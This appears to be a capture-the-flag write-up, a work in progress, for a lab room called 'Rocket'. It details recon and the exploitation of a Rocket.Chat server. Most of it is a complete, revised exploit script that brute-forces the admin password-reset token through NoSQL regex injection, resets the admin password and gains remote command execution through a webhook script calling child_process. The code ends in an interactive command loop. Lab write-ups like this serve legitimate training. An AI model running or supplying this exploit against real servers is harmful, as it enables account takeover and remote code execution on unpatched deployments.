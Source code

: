 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { error: { success: true, message: res.toString() } }
    }
  }
  ```
  this also changed some of the offsets used to find the token and id from the response
- finally, reading the output needed to be tweaked: since the result was in a message field, parsing the response as json then printing this field would get proper formatting.
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

## Revised RocketChat Exploit

This is a modification of the exploit-db script. It should just require an admin email address (admin@rocket.thm) and a target (http://chat.rocket.thm)

```python
#!/usr/bin/python

import requests
import string
import time
import hashlib
import json
import argparse
import sys

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-a', help='Administrator email', default='admin@rocket.thm')
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', default='http://chat.rocket.thm')
parser.add_argument('-p', help='Password to set (default is P@$$w0rd!1234)', default=b'P@$$w0rd!1234')
args = parser.parse_args()

adminmail = args.a
target = args.t
passToSet = args.p

def forgotpassword(email,url):
	payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
	print("[+] Password Reset Email Sent")

def resettoken(url):
	u = url+"/api/v1/method.callAnon/getPasswordPolicy"
	headers={'content-type': 'application/json'}
	token = ""

	num = list(range(0,10))
	string_ints = [str(int) for int in num]
	characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

	while len(token)!= 43:
		for c in characters:
			payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
			r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
			time.sleep(0.5)
			if 'Meteor.Error' not in r.text:
				token += c
				print(f"Got: {token}")

	print(f"[+] Got token : {token}")
	return token

def changingpassword(url,token):
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"'+str(passToSet)+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
	if "error" in r.text:
		exit("[-] Wrong token")
	print("[+] Admin Password was changed !")
	
def auth(url):
	# Authenticating
	sha256pass = hashlib.sha256(passToSet).hexdigest()
	headers={'content-type': 'application/json'}
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
	r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
	if "error" in r.text:
		return False
	data = json.loads(r.text)
	data =(data['message'])
	userid = data[32:49]
	token = data[60:103]
	return userid,token

def rce(url,userid,token,cmd):
	# Creating Integration
	payload = '{"enabled":true,"channel":"#general","username":"admin","name":"rce","alias":"","avatarUrl":"","emoji":"","scriptEnabled":true,"script":"class Script { process_incoming_request() { const require = console.log.constructor(\'return process.mainModule.require\')(); const { execSync } = require(\'child_process\'); res = execSync(\''+cmd+'\'); return { error: { sucess: true, message: res.toString() } } } }","type":"webhook-incoming"}'
	cookies = {'rc_uid': userid,'rc_token': token}
        headers = {'X-User-Id': userid,'X-Auth-Token': token}
        r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
	data = r.text
	data = data.split(',')
	token = data[14]
	token = token[9:57]
	_id = data[20]
	_id = _id[7:24]

	# Triggering RCE
	u = url + '/hooks/' + _id + '/' +token
	r = requests.get(u)
	res = json.loads(r.text)
        print(res["message"])

############################################################

authRes = auth(target)
if authRes == False:
	## Sending Reset mail
	print(f"[+] Resetting {adminmail} password")
	forgotpassword(adminmail,target)

	## Getting reset token
	token = resettoken(target)

	## Resetting Password
	changingpassword(target,token)
	
	print("[+] authenticating as admin")
	authRes = auth(target)
	if authRes == False:
		print("[-] failed to auth")
		sys.exit()

## Authenticating and triggering rce

while True:
	cmd = input("CMD:> ")
	try:
		rce(target,authRes[0],authRes[1],cmd)
	except:
		print("command failed")
```
